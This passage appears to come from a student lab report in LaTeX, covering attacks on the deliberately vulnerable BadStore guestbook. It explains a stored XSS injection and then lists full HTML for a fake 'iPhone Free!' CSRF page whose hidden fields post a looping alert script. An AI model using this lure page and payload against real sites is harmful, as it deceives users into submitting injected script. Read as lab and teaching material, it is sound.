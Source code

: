 \begin{enumerate}
  Explanation: In the example, we write a piece of Javascript code (which simply opens a message box) enclosed in script tags in the comment area and submit it to the guest book. The attack is successful because the website has an XSS vulnerability which enables us to insert Javascript into the website and have it executed by other users. When the page reloads, the server will just paste the tag-embraced Javascript code into the HTML code in such a way that it is interpreted as a Javascript snippet rather than the text \verb|<script>alert("1")</script>|.
\item To perform a CSRF attack, we need to create a custom web page containing deceptive information. The objective of the attack is to have an unsuspecting user make an XSS comment in the guestbook for generating countless alert messages. The key point necessary to execute the attack is to guide the victim to our page and have him or her click on the button. As we demonstrate it just as an example, we can suppose that the victim will click on it. The custom page is so simple that it is just written as a demo. Below are the steps for carrying out the attack:
  \begin{itemize}
  \item As the attacker, write a simple page containing this code:
    \par
    \begin{lstlisting}[language=HTML,numbers=left,numberstyle=\tiny,columns=fullflexible,basicstyle=\footnotesize\ttfamily]
      <!DOCTYPE html>
      <html>
      <head>
      <title>iPhone Free!</title>
      </head>
      <body>
      <FORM METHOD="POST" ACTION="http://10.0.2.5/cgi-bin/badstore.cgi?action=doguestbook">
      <INPUT TYPE=hidden NAME=name value="<script>for(var i=0;i<10000;i++){alert('HHHH');}</script>" SIZE=30>
      <INPUT TYPE=hidden NAME=email value="1" SIZE=40>
      <TEXTAREA style="display:none" NAME=comments COLS=60 ROWS=4 value="aaa"> </TEXTAREA>
      <INPUT TYPE=submit VALUE="Get Now!">
      <INPUT style="display:none" TYPE=reset></Center>
      </FORM>
      </body>
      </html>
    \end{lstlisting}
  \item The page shows like this:
    \begin{figure}[h!]
      \caption{Fake Page}
      \begin{center}\includegraphics[height=2.5in]{csrf1}

\end{center}
\end{figure}
\end{itemize}
\end{enumerate}
